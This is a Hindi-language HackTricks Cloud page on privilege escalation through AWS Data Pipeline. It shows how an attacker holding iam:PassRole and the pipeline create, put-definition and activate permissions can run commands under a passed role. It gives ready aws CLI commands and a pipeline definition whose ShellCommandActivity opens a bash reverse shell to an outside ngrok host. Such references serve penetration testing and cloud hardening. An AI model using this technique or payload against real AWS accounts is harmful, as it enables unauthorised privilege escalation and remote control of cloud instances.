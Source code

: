 # AWS - डेटापाइपलाइन प्राइविलेज एस्कलेशन

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## डेटापाइपलाइन

डेटापाइपलाइन के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

**`iam:PassRole`, `datapipeline:CreatePipeline`,  `datapipeline:PutPipelineDefinition,`** और **`datapipeline:ActivatePipeline`** अनुमतियों के साथ एक हमलावर एक प्राइविलेज एस्कलेशन कर सकता है जो **एक पाइपलाइन बनाने और इसे अद्यतन करके एक अनियमित AWS CLI कमांड चलाने या अन्य संसाधन बनाने** की अनुमति देता है, एक बार या नियमित अंतराल पर जिसमें रोल की अनुमति होती है जो पास की गई थी।
```bash
aws datapipeline create-pipeline --name my_pipeline \
--unique-id unique_string
```
जो एक खाली पाइपलाइन बनाएगा। तब हमलावर को पाइपलाइन की परिभाषा को **अपडेट करने** की आवश्यकता होगी ताकि इसे बताया जा सके कि यह क्या करना चाहता है, इस तरह के एक कमांड के साथ:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
ध्यान दें कि **लाइन 14, 15 और 27** में **रोल** एक ऐसा रोल होना चाहिए जिसे **datapipeline.amazonaws.com द्वारा अस्सुम किया जा सके** और **लाइन 28** में रोल एक **EC2 प्रोफ़ाइल इंस्टेंस के साथ ec2.amazonaws.com द्वारा अस्सुम किया जा सके**।

इसके अलावा, EC2 इंस्टेंस को केवल EC2 इंस्टेंस द्वारा अस्सुम किए जाने वाले रोल तक ही पहुंच होगी (ताकि आप केवल उसे ही चुरा सकें)।
{% endhint %}
```
aws datapipeline put-pipeline-definition --pipeline-id unique_string \
--pipeline-definition file:///path/to/my/pipeline/definition.json
```
जहां **पाइपलाइन परिभाषा फ़ाइल में एक कमांड चलाने के निर्देश होते हैं** या AWS API का उपयोग करके संसाधन बनाने के लिए, जो हमलावर को अतिरिक्त विशेषाधिकार प्राप्त करने में मदद कर सकते हैं।

**संभावित प्रभाव:** निर्दिष्ट ec2 सेवा भूमिका के लिए सीधी विशेषाधिकार प्राप्ति।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी **कंपनी का विज्ञापित करना चाहते हैं HackTricks में** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **फ़ॉलो** करें मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
